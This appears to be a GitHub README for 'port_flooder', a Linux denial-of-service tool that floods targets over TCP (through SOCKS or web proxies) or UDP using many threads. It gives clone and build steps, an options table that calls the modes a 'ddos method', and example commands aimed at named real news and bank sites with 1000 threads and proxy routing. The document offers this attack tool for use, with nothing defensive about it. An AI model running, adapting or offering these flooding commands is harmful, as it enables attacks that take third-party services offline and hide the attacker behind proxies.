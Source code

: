 # Port Flooder
Port flooding application (for Linux)

# Methods
 - TCP (with proxy)
 - UDP (no proxy)

# Features
 - Can send not just random data but also data from <b>file</b>
 - Can use proxy (now it's just for TCP)

# Dependencies

```less
git
cmake>=3
make
g++
```

# Use

To download install git on your machine and type:
```bash
git clone https://github.com/imperzer0/port_flooder.git
```

<h2>Archlinux</h2>

```bash
cd port_flooder
rm *.pkg.tar.zst; rm -rf pkg/ src/; makepkg -sif
```

<h2>Other distributions</h2>

Compile:
```bash
cd port_flooder
cmake -DCMAKE_BUILD_TYPE=Release -DCMAKE_C_COMPILER=gcc -DCMAKE_CXX_COMPILER=g++ -DPACKAGE_VERSION="port-flooder (GIT)" .
make
```

Run with command:
```less
./port_flooder -m <method> -t <target> -T <threads_count> -a <amplifier> [ -d <file> -D -p <proxy_address> -s <sock_version> -U <username> -P <password> ]
```

Program arguments description:
```less
Options:
 --method|-m        <method>    ddos method
 --target|-t        <target>    target address
 --threads|-T       <threads>   threads count
 --amplifier|-a     <amplifier> in-thread requests count
 --data|-d          <file>      send data from file
 --debug|-D                     toggle debug printing
 --proxy|-p         <proxy>     proxy address
 --sockver|-s       <version>   proxy version:
                                 - DIRECT
                                 - SOCKS4
                                 - SOCKS5
                                 - WEB
 --proxyuser|-U     <user>      proxy username
 --proxypassword|-P <password>  password of proxy user
 ```

# Examples

```bash
./port_flooder -m TCP -t http://sber.ru -T 1000 -a 100 -d http_header.txt -p socks5://proxy.com -s SOCK5
```

```bash
./port_flooder -m TCP -t http://ria.ru -T 1000 -a 10
```

```bash
./port_flooder -m UDP -t http://ria.ru -T 1000 -a 10 -d http_header.txt
```
